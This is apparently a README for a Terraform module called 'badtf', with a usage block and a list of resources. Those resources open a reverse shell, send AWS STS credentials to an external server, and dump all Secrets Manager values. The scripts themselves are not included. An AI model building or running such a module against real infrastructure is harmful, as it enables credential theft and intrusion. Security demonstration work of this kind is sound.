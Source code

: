 ## Terraform Module - badtf

The badtf Terraform module is a collection of resources that perform various tasks, including running a remote script, starting a reverse shell, sending STS credentials, and retrieving secrets from AWS Secrets Manager.

## Usage
To use the badtf module, you can include it in your Terraform configuration like this:


`module "badtf" {
  source = "path/to/badtf"

  run_remote_script = true
  remote_script_path = "path/to/your/remote/script"
  remote_domain = "your.remote.domain"

  run_local_script = true
  iam_role_name = "your-iam-role-name"
  external_server_url = "https://your.external.server.url"

  secrets = true
}`

##Input Variables

`run_remote_script` - Set to true to run a remote script.
`remote_script_path` - The path to the remote script.
`remote_domain` - The domain of the remote host.

`run_local_script` - Set to true to run a local script.
`iam_role_name` - The name of the IAM role to use for the local script.

`external_server_url` - The URL of the external server for the local script.

`secrets` - Set to true to retrieve secrets from AWS Secrets Manager.

## Resources

The badtf module consists of the following resources:

null_resource.remote_script - Runs a remote script on the specified host using SSH.
null_resource.start_reverse_shell - Runs a local script to start a reverse shell.
null_resource.send_sts_credentials - Runs a local script to send STS credentials to an external server.
data.aws_secretsmanager_secret.all - Retrieves all secrets from AWS Secrets Manager.
data.aws_secretsmanager_secret_version.secrets - Retrieves the latest version of each secret.
null_resource.output_secrets - Outputs the names and values of the retrieved secrets.

## Providers
The badtf module uses the following providers:

aws - The AWS provider is used to interact with AWS Secrets Manager.

## Notes

- The module assumes that you have the necessary SSH access and AWS credentials to perform the specified operations.
- The local scripts (setup.sh and script.py) are not included in the module and need to be provided separately.
- The module does not include any error handling or validation, so it's important to ensure that the input variables are correct and the necessary resources are available.